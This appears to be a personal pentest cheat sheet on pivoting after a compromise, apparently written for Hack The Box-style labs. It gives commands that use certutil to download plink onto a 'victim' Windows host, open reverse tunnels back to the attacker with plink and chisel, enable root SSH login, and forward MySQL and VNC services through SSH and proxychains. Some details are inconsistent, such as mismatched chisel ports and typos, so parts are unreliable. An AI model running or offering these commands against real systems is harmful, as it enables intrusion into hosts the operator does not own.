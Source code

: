 - [Windows](#Windows)
- [Linux](#Linux)

# Windows

- edit /etc/ssh/sshd_config
```
uncomment PermitRootLogin and set as yes
```

#### Plink
- Download Plink.exe file

- Put plink on victim windows machine
```
certutil -urlcache -f http://[your_ip]/plink.exe plink.exe
```

- run plink on on windows machine 
plink.exe -l root -pw <pass> -R 445:127.0.0.1:445 <your_linux_ip>
  
  
#### chisel
- Download chisel
https://github.com/jpillora/chisel/releases/tag/v1.7.4


- Run chisel server on your linuxmachine: 
```
./chisel server -p 9999 --reverse -v
```

- Run chisel client on victim windows machine:
```
chisel.exe client <your_linux_ip>:9000 R:widnows_service_port:127.0.0.1:widnows_service_port

e.g:
chisel.exe client 10.10.14.49:9999 R:8888:127.0.0.1:8888
```

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Linux

#### SSH port forwarding
In case exploit can not be run locally on target machine, you can frowarded the port via SSH to your local machine
```
ssh [username]@[victim_ip] -L [your_local_port]:127.0.0.1:[victim_service_port] 

ssh [username]@[victim_ip] -R [your_local_port]:127.0.0.1:[victim_service_port] 
```


# TODO!!!

### Proxychains 
#### use squid proxy
- nano /etc/proxychains.conf
#### add:
- http 192.168.213.141 3128

#### scan ports via tunnel
- proxychain nmap -sT -p 22 127.0.0.1

#### ssh login via proxychains
- proxychains ssh name@127.0.0.1

#### use squid proxy
- proxytunnel -p 192.168.0.115:3128 -d 127.0.0.1:22 -a 1234
#### e.g:
- ssh name@127.0.0.1 -p 1234

Exploit code can be run on local machine

#### case study
##### on victim machine
- check service port *netstat -nl*
- ssh -R 4444:127.0.0.1:3306 root@192.168.100.104

##### on yours kali machine
mysql -u root -h 127.0.0.1 -P 4444

#### case study 2 (TightVNC)
```
- check ps -aux
  result: Xvnc :1 -desktop X -httpd /usr/../tightvnc/classes
- check netstat -an
  result: 127.0.0.1.5901
- port forwarding from local machine
  ssh -L 5901:127.0.0.1:5901 username@10.10.10.84
  pass password
- vncviewer 127.0.0.1:5901 -passwd secret_file_with_password
```

#### case study 3 (htb poison vnc)
```
on your machine:
ssh -L 5902:localhost:5901 charix@10.10.10.84
in second window:
vncviewer -passwd secret 127.0.0.1:5902
```

### Port forwarding via ncat
- ncat -u -l  [port1] -c  'ncat -u -l [port2]'
  - Now all the connections for port [port1] will be forwarded to port [port2]
  
  
